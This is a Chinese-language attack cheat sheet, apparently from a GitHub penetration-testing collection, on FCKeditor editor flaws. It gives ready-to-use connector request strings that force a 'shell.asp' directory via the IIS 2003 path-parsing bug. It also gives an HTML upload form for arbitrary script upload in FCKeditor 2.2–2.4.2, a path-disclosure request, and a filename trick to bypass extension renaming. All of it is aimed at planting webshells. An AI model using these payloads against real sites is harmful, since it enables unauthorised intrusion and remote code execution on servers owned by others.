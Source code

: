 ### 利用 2003 路径解析漏洞上传木马

影响版本: 附录 B 脆弱描述： 利用 2003 系统路径解析漏洞的原理，创建类似`bin.asp`如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。 攻击利用:

```
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp 
```

强制建立 shell.asp 目录：

```
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684 
```

or

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

Note:[｀Sn4k3!]这个我也不知道咯，有些时候，手动不行，代码就是能成功，囧。

### FCKeditor PHP 上传任意文件漏洞

影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2 脆弱描述： FCKeditor 在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。 在通过 editor/filemanager/upload/php/upload.php 上传文件时攻击者可以通过为 Type 参数定义无效的值导致上传任意脚本。 成功攻击要求 config.php 配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改 action 字段为指定网址)：

```
<form id="frmUpload" enctype="multipart/form-data"
action="http://navisec.it/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
<input type="file" name="NewFile" size="50"><br>
<input id="btnUpload" type="submit" value="Upload">
</form> 
```

Note:如想尝试 v2.2 版漏洞，则修改 Type=任意值 即可，但注意，如果换回使用 Media 则必须大写首字母 M,否则 LINUX 下，FCKeditor 会对文件目录进行文件名校验，不会上传成功的。

### FCKeditor 暴路径漏洞

影响版本：aspx 版 FCKeditor 攻击利用：

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp 
```

### FCKeditor 文件上传“.”变“_”下划线的绕过方法

影响版本: FCKeditor => 2.4.x 脆弱描述： 我们上传的文件例如：shell.php.rar 或 shell.php;.jpg 会变为 shell_php;.jpg 这是新版 FCK 的变化。 攻击利用:

```
提交 1.php+空格 就可以绕过去所有的, 
```
